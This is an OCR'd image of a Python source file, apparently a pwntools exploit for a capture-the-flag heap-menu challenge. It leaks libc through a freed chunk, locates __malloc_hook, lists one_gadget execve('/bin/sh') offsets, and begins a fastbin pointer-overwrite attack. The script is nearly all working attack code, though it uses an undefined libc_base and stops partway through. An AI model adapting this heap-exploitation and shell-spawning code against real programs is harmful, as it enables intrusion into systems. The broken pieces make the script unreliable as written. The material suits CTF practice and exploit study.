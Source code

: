 ```python
        print('pid: ' + str(p.pid))
        return raw_input(s)
    else:
        return raw_input(s)

def choice(p, idx):
    sla(p, XXX, str(idx))
    
def lg(name, val):
    log.info(name+" : "+hex(val))

def add(size):
    sla(io,"> ","1")
    sla(io,'size?',str(size))

def edit(idx,size,con):
    sla(io,"> ","2")
    sla(io,'index?',str(idx))
    sla(io,'size?',str(size))
    sn(io,con)

def show(idx):
    sla(io,"> ","3")
    sla(io,'index?\n',str(idx))

def free(idx):
    sla(io,"> ","4")
    sla(io,'index?',str(idx))

pause(io)

add(0x100)#0
add(0x60)#1
free(0)
show(0)

malloc_hook = u64(rv(io,6)+"\x00"+'\x00') - 0x68
lg("malloc_hook:",malloc_hook)
lg("libc:",libc_base)
gadget = 0x4526a + libc_base

# 0x45216 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4526a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf02a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1147 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


target_chunk = libc_base + 0x155555328b05 - 0x155554f64000 - 0x18
print(hex(target_chunk))
add(0x20)#2
free(1)
edit(1,0x60,p64(target_chunk))
```